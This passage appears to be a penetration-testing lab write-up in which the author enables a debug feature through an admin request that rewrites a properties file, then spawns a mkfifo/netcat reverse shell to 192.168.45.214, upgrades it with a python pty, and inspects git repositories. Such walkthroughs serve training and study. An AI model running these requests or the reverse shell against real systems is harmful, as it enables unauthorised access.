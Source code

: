 From the error we can understand that `debug` feature should be enabled on the remote system, but for our case it is not enabled, so I am gonna try to find a way to enable it.

I found 0xdf has solved similar box called Runner

`http://…/admin/dataDir.html?action=edit&fileName=config%2Finternal.properties&content=rest.debug.processes.enable=true`

I captured:

![image.png](image%206.png)

Then I changed the request method:

![image.png](image%207.png)

and I changed CSRF token header to returned value:

![image.png](image%208.png)

Now the exploit worked:

![image.png](image%209.png)

I am gonna try to get a reverse shell

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.45.214 80 >/tmp/f
```

![image.png](image%2010.png)

![image.png](image%2011.png)

Let’s try to make it interactive using python;

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

## Shell as git

There 4 bare git repositories in freelancers directory.

I cloned all of them to `temp` directory making them non-bare but couldn’t find anything in appreared files, they contain just files with no important information.

```bash
git clone file:///srv/git/freelancers/patriciam.git
```

But now we can also check commit logs and see what changes happened.

```bash
git status
git log
git show <commit>
```
